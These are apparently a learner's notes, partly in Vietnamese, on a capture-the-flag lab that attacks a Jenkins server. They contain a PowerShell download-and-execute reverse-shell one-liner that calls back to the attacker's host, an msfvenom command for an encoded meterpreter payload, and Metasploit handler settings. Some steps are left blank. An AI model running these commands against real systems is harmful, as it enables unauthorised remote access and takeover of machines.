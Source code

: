 ﻿**Targets:** Jenkin (the most widely used automation server) 

`	`\_Lỗ hổng: allow execution of commands on the underlying system

**Activities:** Gain initial shell through Nishang scripts, privilege escalation through Windows authentication Tokens

**Sources:**
**
`	`Nishang: <https://github.com/samratashok/nishang>  -- gain initial access

`							       `-- Enumeration

`							       `-- Priv. Escalation

---Reverse shell script:  ‘Invoke-PowerShellTcp.ps1’   <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1>

**Task 1: Gain initial Access**

**Objective#1:** Exploit a feature in Alfred tool that allow hacker to execute *malicious* commands on the underlying system.

- Gain reverse shell access

**B3:** *The exploit command:*

*powershell iex (New-Object Net.WebClient).DownloadString('http://[**kali\_IP]**:**[**your-port**]**/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse –IPAddress **[**your-ip**]** -Port **[**your-port**]***

***ví dụ:***

*powershell iex (New-Object Net.WebClient).DownloadString('http://* *10.18.27.67:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.27.67 -Port 2002*

Force that server to download PowerShellTcp.ps1 from my Kali, and execute that script to create a reverse shell back to my Kali machine.

**B2:** 






**B1:**









**Task 2: Switching the Shells**

**B1. Create a** Windows meterpreter shell using msfvenom

msfvenom -p **windows/meterpreter/reverse\_tcp** -a x86 --encoder x86/shikata\_ga\_nai LHOST=[IP] LPORT=[PORT] -f exe -o [**SHELL NAME**].exe

**B2. Start Metasploit handler** 

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse\_tcp set LHOST 10.18.27.67 set LPORT 1111 run



**B3. Drop that** reverse\_shell.exe into the victim server


